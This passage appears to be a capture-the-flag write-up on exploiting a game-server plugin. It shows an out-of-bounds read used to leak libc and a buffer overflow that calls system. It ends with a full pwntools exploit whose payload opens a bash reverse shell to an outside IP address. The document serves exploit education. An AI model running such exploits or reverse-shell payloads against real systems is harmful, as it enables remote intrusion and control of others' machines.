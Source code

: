 ```c
}
```

The plugin will find the desired entity by an entity id, and return that entity's name to us. In a situation where we provide an invalid entity id, it will read an abitrary memory region and return those values in that memory to us. If somehow we can control the entity id that can lead us to a desired memory region, we will have arbitrary read primitive! Which we can use to leak libc:

```py
MESSAGE = b"\xff\xff\xff\xffa" + b"266746450" + p32(0x2270c)
r.send(MESSAGE)

base_addr = u32(r.recv()[4:8]) - 0x18f6d60

PREFIX=b'\xff\xff\xff\xffa266746450'
r.send(PREFIX + p32(141068))
res = r.recv()
leak = u32(res[4:8])
libc.address = leak - 0x82d60
info('libc base: 0x%x' % libc.address)  
```

While debugging, I found that `SVC_GameDllQuery` will call our function from the plugin by tracing the call stack. And github leads us to this [code](https://github.com/dreamstalker/rehlds/blob/5e8b0ba616c571646c4fc67b188d1a630650d928/rehlds/engine/sv_main.cpp#L3173). In general, the response will be copied to a buffer with the size of 4096 bytes, and we can overflow this.

And finally to create a reverse shell on the game server, we use `system` call to connect to our own server and that's our final piece to complete the exploit.

```py
import socket
from pwn import *

libc = ELF('./libc-2.31.so')
r = remote("game.hackemall.live", 62675, typ="udp",fam="ipv4")

MESSAGE = b"\xff\xff\xff\xffa" + b"266746450" + p32(0x2270c)
r.send(MESSAGE)

base_addr = u32(r.recv()[4:8]) - 0x18f6d60

PREFIX=b'\xff\xff\xff\xffa266746450'
r.send(PREFIX + p32(141068))
res = r.recv()
leak = u32(res[4:8])
libc.address = leak - 0x82d60
info('libc base: 0x%x' % libc.address)
system = libc.sym['system']

cmd = b'/bin/bash -c "/bin/bash -i >& /dev/tcp/134.209.109.144/9999 0>&1"'

MESSAGE = b"\xff\xff\xff\xffa" + b"266746450" + p32(0x158224e)
MESSAGE += cmd + b';'
MESSAGE = MESSAGE.ljust(0x82a, b'b')
MESSAGE += p32(system)
MESSAGE += b'a'*4
MESSAGE += p32(libc.address - 0x2271ae)
r.send(MESSAGE)
```

![](https://i.imgur.com/0EgASEa.png)

`TetCTF{https://www.youtube.com/watch?v=RQmEERvqq70}`

> Happy new years everyone!!!